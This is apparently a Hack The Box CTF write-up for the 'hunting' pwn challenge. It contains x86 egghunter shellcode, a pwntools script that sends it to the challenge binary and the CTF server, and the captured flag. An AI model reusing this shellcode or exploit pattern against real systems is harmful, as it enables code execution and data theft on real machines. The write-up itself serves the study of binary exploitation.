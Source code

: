 ```yaml
---
layout: post
title: Hack the Box rev hunting
image: /assets/img/HTB-Logo.png
date:   2022-12-12 11:15:01
tags:
- rev
description: Basic rev challenge
categories:
- Hack The Box
---
```



Pwn challenge where you have to search for a string in memory also we have to shut down an alarm call.

First of all let's see if there are any addresses left that can point us to the flag:

The address is between 5ffffffffh and F7000000h as in the following figure :
![](/assets/img/2022-09-15-12-57-04.png)

The executable generates them by calling random generator, the seed cannot be attacked either.

Moving to the main we can see that we only have a limited time until the alarm quits the program:
![](/assets/img/2022-09-15-12-59-34.png)
We can disable it with asm but we only have a limited 60 bytes of instructions.

We can see that all memory locations of the address for the flag are erased:
![](/assets/img/2022-09-15-13-02-13.png)

Also that we simply put in the shellcode and it gets executed but we only have 60b.

We have multiple ways of solving this:
either we stop the alarm and then we get the flag or stop the alarm and get shell

we can dump the program and get the flag with execve syscall probably.

The exe is called hunting so i assume we must construct a form of flag finder in memory. After lots of searches i found out it is called egg hunt.

Here i found a snippet that does just that:
https://anubissec.github.io/Egghunter-Shellcode/#

```
global _start


section .text


_start:

        ; Load our "egg" into ESI
        mov esi, 0x7b425448 

following_page:

        or dx, 0xfff ; Load 4095 into dx

test_next:
        inc edx ; Make EDX "4096"
        mov al, 33 ; set the value of the access syscall
        lea ebx, [edx + 0x8] ; Load the address of the following 8 bytes
        int 0x80 ; Start the check if the memory is accessible


        cmp al, 0xf2 ; Compares the syscall value of access, and the value of the EFAULT error
        je short following_page ; If EFAULT thrown, go back and check the follwing memory page

        cmp [edx], esi ; If memory can be accessed, check for the egg inside ESI
        jnz short test_next ; Go back and keep testing if the egg wasn't found
        mov ecx, edx 
        mov eax,0x4
        mov ebx,0x1
        mov edx,0x24
        int 0x80
        
```

Except the code above sucks:
The code below works because we have cleared the ecx register which represents the access type we need as per :
https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit
![](2022-09-15-18-48-38.png)

Furthermore i kept getting another answer from the syscall (0xffea) and i added that. The code meant invalid access.

```
from pwn import *
shellcode="""
_start:

        mov esi, 0x7b425448 
	mov edx, 0x60000000
following_page:

        or dx, 0xfff 
test_next:
        inc edx 
        xor ecx, ecx
        mov eax, 33 
        lea ebx, [edx + 0x8]
        int 0x80 


        cmp al, 0xf2 
        je short following_page 
	cmp al,0xffea
	je short following_page
        cmp [edx], esi
        jnz short test_next 
        mov ecx, edx 
        mov eax,0x4
        mov ebx,0x1
        mov edx,0x24
        int 0x80
"""
sender=asm(shellcode, arch = 'i386')
io = process("./hunting")
#gdb.attach(io,'break main  ')
io.send(sender)
a=io.recv()
print(a)
```
Changing the process to io=remote('139.59.183.170',30025) gives me the flag

HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}

The breakdown is that we set the beginning of the page, (we have some hint that it is begining at 0x6.... and ends at 0x7...) so we iterate the space 0xfff is the page size in linux, and search for the HTB{ part of the flag if found we put it in a write syscall and end the challenge.